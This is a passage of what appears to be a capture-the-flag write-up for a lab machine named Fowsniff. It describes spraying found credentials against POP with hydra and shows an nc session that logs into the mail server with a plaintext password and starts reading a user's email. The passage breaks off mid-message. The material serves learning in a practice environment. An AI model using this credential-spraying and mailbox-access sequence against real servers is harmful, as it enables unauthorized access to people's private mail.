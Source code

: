 ![alt text](images/secret.png)

# POP,IMAP

1. We try to spray the earlier found creds against the service using hydra. We found a [match](mail/pop_pass.txt). 

2. We can now use these creds to get in using either `telnet` or `nc`.

```bash
└─$ nc 10.10.101.18 110                                               
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina@fowsniff
+OK
PASS scoobydoo2
-ERR [AUTH] Authentication failed.
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST    
+OK 2 messages:
1 1622
2 1280
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
```